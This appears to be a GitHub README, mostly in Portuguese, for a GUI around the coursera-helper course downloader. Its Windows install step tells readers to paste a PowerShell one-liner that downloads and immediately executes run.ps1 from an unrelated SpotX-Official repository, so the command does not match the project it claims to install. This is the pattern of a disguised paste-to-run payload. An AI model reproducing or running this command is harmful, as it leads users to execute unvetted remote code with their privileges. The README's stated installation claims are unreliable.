 # Coursera Downloader GUI

# Portuguese

Esse projeto visa criar uma interface de usuário para o pacote coursera-helper (fork de coursera-dl), no qual tem como objetivo baixar vídeos, leituras e quizzes, notebooks e recursos em geral, dos cursos e especializações do website coursera. 

## Instruções de instalação (Windows)

Copie o código disponibilizado abaixo, no qual executa o script run.ps1, que se encarregará de instalar as dependências necessárias, moverá os arquivos construídos para a pasta program files do seu disco e criará um atalho na área de trabalho.

iex "& { $(iwr -useb 'https://raw.githubusercontent.com/SpotX-Official/spotx-official.github.io/main/run.ps1') }"

## Usage

To run the application, execute the following command:
```
python src/main.py
```

This will launch the GUI, allowing you to log in to Coursera and manage your course downloads.

## Contributing

Contributions are welcome! Please feel free to submit a pull request or open an issue for any suggestions or improvements.

## License

This project is licensed under the MIT License. See the LICENSE file for more details.


# English